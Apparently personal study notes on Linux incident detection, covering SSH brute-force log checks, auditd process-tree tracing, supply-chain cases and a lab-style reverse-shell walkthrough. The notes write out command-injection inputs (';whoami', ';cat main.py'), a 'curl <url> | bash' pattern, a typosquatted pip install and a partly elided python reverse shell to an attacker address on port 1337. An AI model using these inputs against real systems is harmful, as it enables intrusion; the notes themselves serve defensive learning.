


### **Short Note: SSH & Initial Access**

SSH is a common entry point for attackers on Linux systems because it is often exposed to the internet and poorly secured.

---

### Risks:

* Weak or reused passwords
* Stolen SSH keys
* Misconfigured or exposed servers

---

### Attack methods:

* Brute-force password attacks
* Theft of SSH keys
* Exploiting misconfigurations

---

### Logs to check:

```bash
cat /var/log/auth.log | grep sshd
```

Look for first login and whether it used `password` or `publickey`.
---
### **Short Note: SSH Breach**

SSH attacks usually start with **brute-force login attempts**, followed by a successful login using weak or stolen credentials.

---

### Indicators:

* Many `Failed password` logs
* `Accepted password` from external IPs
* Unusual login times or unknown users

---

### Check logs:

```bash id="s1"
grep "Accepted" /var/log/auth.log
grep "Failed password" /var/log/auth.log
```

---

### Key idea:

Password logins from external IPs after brute force = likely compromise.
---
### **Short Note: Linux & Public Services**

Linux often runs public services (web, email, VPN, databases). If one is vulnerable, the whole system can be compromised (MITRE T1190).

---

### Key idea:

Application logs don’t show full attacks but provide **useful traces** of exploitation.

---

### Log sources:

* Web logs → attacks like command injection, XSS
* DB logs → suspicious queries
* VPN logs → abnormal logins
* Email logs → phishing activity

---

### Example (web attack):

Unfiltered input in a web app allowed **command injection**:

Signs in logs:

* Normal requests → `/ping?host=IP`
* Malicious input → `;whoami`, `;ls`

---

### Key takeaway:

If users inject commands into input fields → likely **remote code execution (RCE)** and system compromise.
---

### **Short Note: Building Process Tree (Linux Auditd)**

Process tree analysis helps trace **how a command was executed** and identify the real source of a breach.

---

### Key idea:


Start from a suspicious process and follow its **parent (PPID) chain** back to the origin (often a web app or service).

---

### Auditd tools:

```bash id="t1"
ausearch -i -x <command>
ausearch -i --pid <PID>
ausearch -i --ppid <PPID>
```

---

### Workflow:

1. Find suspicious command (e.g. `whoami`)
2. Get its PID/PPID from `SYSCALL`
3. Trace upward until reaching the root process (`PID 1`)
4. Identify origin (e.g. Python web app, cron, service)

---

### Key insight:

* Commands like `whoami`, `ls`, `curl` may be executed by a **compromised application**
* Process tree reveals **initial access path**, not just the action

---

### Why it matters:

Even if logs show a harmless command, process tree analysis can reveal:

* Web app exploitation
* Reverse shells
* Malicious child processes launched by services

---------------------------------


## Human-led Attacks (Key Notes)

* Linux is less targeted by phishing/USB attacks, but risks still exist, especially through user actions and trust-based execution.

### Common Attack Scenarios

* **Remote script execution abuse**
  Example: `curl <url> | bash`
  → Unverified scripts can lead to silent malware execution.

* **Typosquatting / malicious packages**
  Example: `pip3 install fastpi`
  → A fake package mimics a real one and installs malware.

---

## Supply Chain Compromise

* Attack targets trusted software or dependencies instead of users directly.
* Affects all users once malicious updates are distributed.
* Examples:

  * Backdoor in **XZ Utils** affecting SSH ecosystem
  * Compromise of **tj-actions** leaking secrets (SSH keys, tokens)

---

## Detection Approach

* Use **process tree analysis** to trace activity origin.
* Start from alerts (suspicious command, unusual network connection).
* Identify parent process and user context:

  * Web server running `whoami` → web compromise
  * Service running `wget` → supply chain issue
  * SSH session running miner → credential breach

------------
here you can see an example of reverse shell:
Reverse shell via command injection in `/bin/sh`.

1. Initial execution:

```
/bin/sh -c ping -c 2; ls
```

Shell runs injected commands in `/opt/tryppingme`.

2. Command chaining verified:

```
/bin/sh -c ping -c 2; pwd
```

Confirms multiple commands can be executed using `;`.

3. Recon:

```
/bin/sh -c ping -c 2; cat /opt/tryppingme/main.py
```

Reads application source code.

4. Reverse shell payload:

```
python3 -c 'import socket, subprocess ...'
```

Creates outbound TCP connection to attacker (`10.14.105.255:1337`), redirects stdin/stdout/stderr via `dup2`, then spawns interactive shell with `pty.spawn("sh")`.

5. Result:
   Attacker gets a remote shell on the victim and can execute commands interactively.

**Summary chain:**

```
command injection → /bin/sh → recon (ls/cat) → python socket → TCP reverse connection → shell redirection → interactive shell
```

